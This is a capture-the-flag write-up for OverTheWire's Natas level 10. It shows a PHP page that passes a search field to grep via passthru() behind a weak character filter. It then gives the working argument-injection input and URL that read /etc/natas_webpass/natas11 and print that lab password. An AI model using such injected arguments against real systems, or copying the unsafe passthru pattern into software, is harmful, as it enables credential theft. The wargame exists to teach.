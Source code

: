 ``` html
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

http://natas10.natas.labs.overthewire.org/?needle=;&submit=Search

Input contains illegal character (/[;|&]/):

``` html

<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

**This one is quite similar to the previous one however, we got some restriction on the characters. But, we could try to read all the files of a directory using the following input : .* /etc/natas_webpass/natas11**

http://natas10.natas.labs.overthewire.org/?needle=.*%20/etc/natas_webpass/natas11&submit=Search

/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

![11](./img/11.png)
